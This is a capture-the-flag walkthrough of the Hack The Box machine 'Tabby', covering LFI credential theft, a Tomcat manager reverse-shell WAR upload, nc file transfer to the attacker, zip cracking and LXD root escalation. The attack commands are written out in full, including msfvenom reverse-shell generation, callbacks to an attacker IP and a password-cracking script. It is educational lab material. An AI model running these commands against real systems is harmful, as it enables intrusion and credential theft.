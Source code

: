 # Hack The Box - Tabby

## This is my writeup and walkthrough for tabby from Hack The Box.


![cover](https://user-images.githubusercontent.com/36403473/86299941-cbe51a80-bc01-11ea-801b-3c4a276e6143.jpg)

## an easy linux machine with some vulnerable LFI 

## `Enumeration`
   
#### 1-Nmap 
  `nmap -sC -sV 10.10.10.194`

```
theblock@python-4004:~$ nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 01:22 EET
Nmap scan report for megahosting.htb (10.10.10.194)
Host is up (0.47s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
###### My focus was on Port 80 `http Apache httpd 2.4.41 ((Ubuntu))` ,and 8080 running a http Apache called `Tomcat`. 

#### 2-website

![Screenshot from 2020-07-02 01-34-45](https://user-images.githubusercontent.com/36403473/86300983-ecfb3a80-bc04-11ea-81d9-2d1be55f2920.png)

##### Ckeck site very well moving to `news` page founding  paramter `file` it maybe vulnerable

![Screenshot from 2020-07-02 01-33-13](https://user-images.githubusercontent.com/36403473/86301124-4cf1e100-bc05-11ea-906c-1b77164f5826.png)

##### First i thought it may be `LFI` and it was right expectation but let’s add 10.10.10.194 to our `/etc/hosts` file  

![Screenshot from 2020-07-02 02-09-29](https://user-images.githubusercontent.com/36403473/86302713-c8ee2800-bc09-11ea-8f35-3453aedf8d99.png)
 
##### the second step to exploit but i need more information now the role of port `8080`
#####   checking this port `10.10.10.194:8080`


![Screenshot from 2020-07-02 02-23-24](https://user-images.githubusercontent.com/36403473/86303303-bd9bfc00-bc0b-11ea-8ed6-33fa5e11bbab.png)
 
The `CATALINA_HOME` and `CATALINA_BASE` environment variables are used to 
specify the location of Apache Tomcat and the location of its active configuration, respectively.

this information is very important `Users are defined in /etc/tomcat9/tomcat-users.xml.` okey lets see our users using `CATALINA_HOME`
i think its very important to see Apache Tomcat 8 docs ,googling and lets try to get usrs from `tomcat-users.xml`
[Tomcat docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html)


![lfi](https://user-images.githubusercontent.com/36403473/86301222-95110380-bc05-11ea-8f59-d41dbaa6f153.png)
 very good i have `tomcat` password `$3cureP4s5w0rd123!`
no i can acess `The host-manager` but i dont have any authorization to  upload any shell on this server so lets googling maybe find way.
i found an exploitaion to this server [Tomcat exploitaion](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)
now from `LFI` we can get `RCE` 
### Exploitation
 
 Exploitation is  to Generate `.war` Format Backdoor,We can use msfvenom for generating a `.war` format backdoor for java/jsp payload, all you need to do
 is just follow the given below syntax to create a `.war` format file and then run Netcat listener.
 ```
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.120 LPORT=1234 -f war > kk.war
 nc -lvp 1234
 ```
 Deploy A New Application from a Local Path from this path `http://10.10.10.194:8080/manager/text/deploy?path=filename` this mentioned in the documentation 
 
 using curl command to send `.war` file to server 
```
curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file kk.war "http://10.10.10.194:8080/manager/text/deploy?path=/kk.war"
```
checking context `http://10.10.10.194:8080/manager/text/deploy?config=file:/path/context.xml`

![server file](https://user-images.githubusercontent.com/36403473/86305635-6cdbd180-bc12-11ea-8ace-28c853d22d85.jpg)
###### `kk.war` is uploaded successfully 

![connect2](https://user-images.githubusercontent.com/36403473/86305804-deb41b00-bc12-11ea-9efc-bfa48c11f726.jpg)

connected to machine and upgrade to tty shell  `python3 -c 'import pty; pty.spawn("/bin/bash")'` or to upgrade to full  tty shell use this commands 

 ``` 
    /usr/bin/script -qc /bin/bash /dev/null
     Ctrl-Z
     stty raw -echo
     fg
     Ctrl-Z
    
````
### Privilege Escalation
#### 1- Own User
in this step lets discover system and search for any things that seem important to escalate your privilege
in /home/ash i couldnt go inside lets look deeper 
in `/var/www/html/files` i found `16162020_backup.zip` that need password to be unziped so i copy this zip file from target machine to my machine by nc command 
``` 
target machine 
nc 10.10.16.120 4000 > 16162020_backup.zip
my machine 
nc -l -p 4000 < 16162020_backup.zip
````
i develop simple python code to crack this zip file password 

```
#!/usr/local/bin/python3
from tqdm  import tqdm 
import zipfile
import sys

wordlist = sys.argv[2]
zip_file = sys.argv[1]

zip_file = zipfile.ZipFile(zip_file)
n_words = len(list(open(wordlist, "rb")))

print("Total passwords to test:", n_words)
with open(wordlist, "rb") as wordlist:
    for word in tqdm(wordlist, total=n_words, unit="word"):
        try:
            zip_file.extractall(pwd=word.strip())
        except:
            continue
        else:
            print("[+] Password found:", word.decode().strip())
            exit(0)
print("[!] Password not found, try other wordlist.")
```
the password `admin@it`
And now we owned user ash:
getting usr.txt 

![Screenshot from 2020-07-02 03-54-33](https://user-images.githubusercontent.com/36403473/86308013-7700ce80-bc18-11ea-95c4-3cd1369c46d8.png)

#### 2- Own Root
This step took me a lot of time, although it was not difficult
but finally i own machine lets explian the exploit 
on seeig autherization by `id` 

![Screenshot from 2020-07-02 04-00-23](https://user-images.githubusercontent.com/36403473/86308347-40778380-bc19-11ea-93e7-e5d5122d8379.png)

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. 
This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. 
The vulnerability exists even with the LXD snap package.
[Lxd Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

#### Steps to be performed on the attacker machine:
1-Download build-alpine in your local machine through the git repository. 

2-Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.

3-Transfer the tar file to the host machine

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine

```
i upload all files on my localhost 

![Screenshot from 2020-06-30 17-24-49](https://user-images.githubusercontent.com/36403473/86310114-8afaff00-bc1d-11ea-856b-551651e35021.png)

on the target machine 
`wget  http://10.10.16.120/lxd-alpine-builder-master/alpine-v3.12-x86_64-20200630_1546.tar.gz` on `/tmp` or /`home`

After the image is built it can be added as an image to LXD as follows:
`lxc image import alpine-v3.12-x86_64-20200630_1546.tar.gz --alias myimage`
`lxc image list`
![lxc](https://user-images.githubusercontent.com/36403473/86310258-e62cf180-bc1d-11ea-92a5-898b77719e79.png)

 ```
 lxc init myimage ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id
````
Once inside the container, navigate to /mnt/root to see all resources from the host machine.
After running the bash file. We see that we have a different shell, it is the shell of the container. 
This container has all the files of the host machine. So, we enumerated for the flag and found it.

```
mnt/root/root
ls
flag.txt
cat flag.txt
```
![root](https://user-images.githubusercontent.com/36403473/86310532-a1ee2100-bc1e-11ea-8bb1-bf272f231d6c.png)

#### now  i owned machine 

